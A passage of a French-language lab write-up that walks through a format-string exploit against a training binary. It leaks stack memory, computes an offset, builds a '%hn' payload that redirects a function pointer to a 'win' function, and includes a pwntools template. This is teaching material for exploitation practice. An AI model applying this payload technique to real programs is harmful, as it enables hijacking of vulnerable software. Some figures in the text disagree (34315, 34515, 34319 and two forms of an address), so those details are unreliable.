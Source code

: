 
### Manipulation 3.2: Exploitez la vulnérabilité en remote pour accéder à la fonction win.
On test ou se trouve notre buffer en lancant la commande avec un payload
```python
payload = "AAAA" + "%x" * 99
r.sendlineafter('Login : ', payload)
```
La mémoire s'affiche alors en hexa, il faut donc trouvé 4 x 41 qui correspondent à nos 4 A. Une fois trouvé dans notre mémoire, on peut trouver le décalage en comptant le nombre de bytes jusqu'a notre buffer dans mon cas 10.

Il faut trouver ensuite notre fonction win qui est stockée chez moi à l'adresse `0x0804860F`
cela grâce à la commande `x /w win` et l'adresse de "function" `x /w function` dans gdb qui me donne `0x8004a194`.

Avec le template du script, je peux donc écrire mon payload `\x94\xa1\x04\x08%34315x%10$hn` qui se décompose ainsi
-> `\x94\xa1\x04\x08` soit l'adresse de "function" (cette dernière pointe sur la fonction fail actuellement et c'est cela que nous devons écraser)
-> `%34315x` qui correspond aux 2 derniers bytes de ma fonction win = 0x----860F en décimal 34319 - 4 bytes déjà écrit au point précédent pour l'adresse (`\x94\xa1\x04\x08`)
    Comme les 2 bits de points fort sont les même pour ma fonction fail et win, je n'ai pas besoin de les remplacer.
--> enfin, 10$hn qui définissent le décalage trouvé avant le $ pour sauter à cet emplacement et hn pour écrire 2 bytes à la fois (hh pour écrire 1 byte)

```python
#!/usr/bin/env python2
# encoding: utf-8
from pwn import *
import argparse

parser = argparse.ArgumentParser("Template d'exploitation SLO level3")
parser.add_argument('--file', '-f', type=str, default="./chal2", help="name of the binary to exploit")
parser.add_argument('--host', type=str, default='10.192.72.221', help='IP remote')
parser.add_argument('--port', '-p', type=int, help='Remote port')
parser.add_argument('--remote', '-r', default=False, action='store_true', help='Enable remote connection')
parser.add_argument('--debug', '-d', default=False, action='store_true', help='Set pwntools log level to debug')
parser.add_argument('--gdb', '-g', default=False, action='store_true', help='Start gdb')

args = parser.parse_args()

if args.debug:
    context.log_level = 'DEBUG'

if args.remote:
    if args.port is None:
        log.warn('Port required for remote execution')
        sys.exit(-1)
    r = remote(args.host, args.port)

else:
    #r = ELF(args.file)
    r = process(args.file)
    if args.gdb:
        gdb.attach(r, ''' break main ''')


#Adresse de function pour faire pointer function vers win
#on ajoute 34515 en décimal (0x860F) pour pointer sur la fonction win
#win et fail on les memes bits de poids fort donc pas besoin de les changer
```